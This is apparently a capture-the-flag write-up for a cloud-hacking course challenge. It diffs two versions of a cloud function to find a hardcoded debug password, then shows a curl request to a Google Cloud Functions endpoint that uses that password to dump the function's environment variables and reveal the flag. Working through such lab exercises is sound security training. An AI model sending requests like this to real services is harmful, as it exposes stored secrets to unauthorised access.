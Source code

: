 # 831865_cloud_hacking_3

According to the last d8d9da_cloud_hacking_2 challenge, there are two versions of the function. After diff, we can find the debug password.
```
diff -i -u v1/function.js  v2/function.js | vim -
let debugPassword = "f6Bpn0m9WG" //Change me


curl "https://europe-west1-en2720-2017.cloudfunctions.net/twmn_cloud_hack_en2720-w1?debug=f6Bpn0m9WG&message=process.env" \
-H "Authorization: Bearer $(gcloud auth print-identity-token)"

"FLAG":"flag{831865c2455088b26568e38f23220eb974310c127b51d3}"
```